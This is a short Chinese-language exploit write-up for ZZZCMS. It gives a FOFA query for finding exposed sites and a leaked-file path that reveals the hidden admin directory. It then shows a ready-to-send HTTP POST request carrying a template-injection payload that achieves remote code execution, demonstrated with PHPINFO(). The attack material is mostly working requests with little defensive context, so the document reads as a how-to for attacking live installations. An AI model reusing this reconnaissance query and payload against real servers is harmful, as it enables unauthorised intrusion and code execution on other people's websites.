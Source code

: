 # FOFA：

```
app="Zzzcms"
```



# **Zzzcms 1.75** **后台地址泄露**

## **一、漏洞影响**

Zzzcms 1.75

## **二、复现过程**

存在一个比较奇葩的文件直接将一些属于不可访问的zzz_config.php的内容直接给回显了，该信息泄露文件位于plugins/webuploader/js/webconfig.php，可以直接获取到管理后台的管理路径名称，再也不用去爆破admin加3位数字了

通过访问[http://xxxx/plugins/webuploader/js/webconfig.php]()即可获取后台路径

![image-20220718120157582](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/image-20220718120157582.png)

---

# ZZZCMS parserSearch 远程命令执行漏洞

## 漏洞描述

ZZZCMS parserSearch 存在模板注入导致远程命令执行漏洞

## 漏洞影响

```
ZZZCMS
```

## FOFA

```
app="zzzcms"
```

## 漏洞复现

```
POST /?location=search HTTP/1.1
Host: 
Content-Length: 30
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=rbuhrqqhoctntnak8slkascqp1; keys=%7Bif%3A%3DPHPINFO%28%29%7D%7Bend+if%7D%0D%0A


keys={if:=PHPINFO()}{end if}
```
